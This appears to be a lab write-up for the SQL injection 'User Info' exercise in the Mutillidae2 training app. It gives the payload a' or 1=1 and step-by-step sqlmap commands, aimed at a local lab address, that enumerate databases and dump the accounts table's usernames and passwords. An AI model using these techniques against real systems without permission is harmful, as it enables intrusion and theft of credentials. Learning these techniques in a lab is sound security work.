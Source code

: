 # A1
<h2>User Info</h2>

<p>We are dealing with a case of SQL Injection here. So we need to escape the intended context and fetch all users.
This one breaks down with the simplest and most trivial, <i><b>a' or 1=1</b></i>. Mutillidae2 fetches error messages from the database, and hence you know what query is being run. In the real world, most of the SQL injection attacks that work are blind or inference based.
This causes the <i>"WHERE"</i> clause to return true and all the user details are displayed without any hassle. We have successfully used SQLINJECTION to get our hands on sensitive data.
</p>

<h3>Note</h3>
<p>Please do not go about trying inserting SQL injection based input on webistes not owned by you, or sites on which you do not have permissions to perform tests on. Modern architectures have IDS setup which will monitor suspicious activity ,and report your IP.
</p>
Also, Mutillidae2 presents to you the SQL injection on a plate, including displaying error messages. In the real world, lot of mapping, pruning and scanning is required before any vulnerability is identified.

<h3>Execution</h3>
<ol>
	<li>Manually submit values via browser interface, i.e username=<b>a'or 1 = 1</b>. However, level 2 will fail as the Javascript will prevent this. Hence the script will bypass this client side defense.
	<ul>
		<li>Will be prevented by Client side scripting(Stupid Level 2)</li>
		<li>Not hackery enough, doesn't give you the feel good</li>
	</ul>
	</li>
<li>	
Use a good'ol script that behaves like a browser. Attached the most simple script possible in pytnon
using Mechanize. (sqlinjection.py). It can be modified to be bit smart and adaptive. For now it snipes on the User Info page.
</li>
<li>
Use the grand daddy SQLMap tool. More on how to use sqlmap can be found by reading the man page.SQLMap ships by default with Kali Linux.
<ul>
			<li>
				<p>Start by locating sqlmap if it is already installed<p>
				<pre>
locate sqlmap.py
				</pre>
				Traverse to the directory, which will be "/usr/share/sqlmap" , if it is installed
			</li>
			<li>
				First step is to find out, the action URL i.e where the data is being submitted. There are many ways to do this, but I prefer doing it via the proxy of WebExploit tool BurpSuite, by PortSwigger.
				The request URL and method type must be indentified. In this case, the GET request reflects in the URL and can be copied from there. <br> In Burp Suite this can be done using the inbuilt proxy and copying th details from there. <br> We now use the URL with SQLMap as follows.<br> The values of the username and password do not matter,those keys will be used by SQLMap for injection.
				The 
				<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs  
				</pre>
				</li>
				<li>
					The above command will display the databases that could be accessed, use "<b>-D &ltDatabaseName&gt</b>" , and <b>--tables</b>to see tables for the database.
					<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=dotcom&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp --tables
					</pre>
					</li>
					<li>
Once ,tables are displayed,a table name can be selected using "<b>-T &lttableName&gt</b>" and display columns using "<b>--columns</b>"
<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts --columns
</pre>
</li>
<li>
	One or more columns may then be selected using "<b>-C &ltcolumn1Name,column2Name&gt</b>" and the data can be dumped by specifying the option "<b>--dump</b>"
	<pre>
./sqlmap.py -u "http://192.168.16.1:9999/mutillidae2/index.php?page=user-info.php&username=alibaba&password=password&user-info-php-submit-button=View+Account+Details" --dbs -D nowasp -T accounts -C username,password --dump
</pre>
	</li>
</ul>
</ol>
